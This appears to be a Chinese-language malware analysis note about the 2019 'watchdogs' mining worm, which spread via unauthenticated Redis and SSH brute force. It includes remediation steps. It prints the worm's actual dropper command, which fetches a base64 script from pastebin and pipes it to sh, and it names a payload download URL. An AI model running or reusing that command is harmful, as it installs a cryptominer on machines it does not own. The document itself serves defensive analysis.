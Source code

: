 # watchdogs
2019.2.22 通过redis未授权、SSH爆破等途径入侵传播

### pastebin.com/raw/sByq0rym
开始执行的脚本，内容为:
```
(curl -fsSL https://pastebin.com/raw/tqJjUD9d||wget -q -O- https://pastebin.com/raw/tqJjUD9d)|base64 -d|sh
```

### tqJjUD9d.sh
首先执行的恶意脚本，写入定时任务及结束一些同行进程，下载了```http://thyrsi.com/t6/672/1550667479x1822611209.jpg```,
作者还在最后加了声明。。。
```
#1.If you crack my program, please don't reveal too much code online.Many hacker boys have copied my kworkerds code,more systems are being attacked.(Especially libioset)
#2.I used to want a secure network,social change of humanity,but I really don't like being bad hacker.
#3.All data is safe,only mining
#
```

### watchdogs
恶意挖矿程序本体


### 解决办法
```
1、删除恶意动态链接库 /usr/local/lib/libioset.so；
2、排查清理 /etc/ld.so.preload 中是否加载1中的恶意动态链接库；
3、清理 crontab 异常项，删除恶意任务(无法修改则先执行5-a)；
4、kill 挖矿进程；
5、排查清理可能残留的恶意文件；
a.chattr -i /usr/sbin/watchdogs /etc/init.d/watchdogs /var/spool/cron/root /etc/cron.d/root
b. chkconfig watchdogs off
c. rm -f /usr/sbin/watchdogs /etc/init.d/watchdogs
7、相关系统命令可能被病毒删除，可通过包管理器重新安装或者其他机器拷贝恢复；
8、 由于文件只读且相关命令被 hook，需要安装 busybox 通过 busybox rm 命令删除；
9、部分操作需要重启机器生效。
```

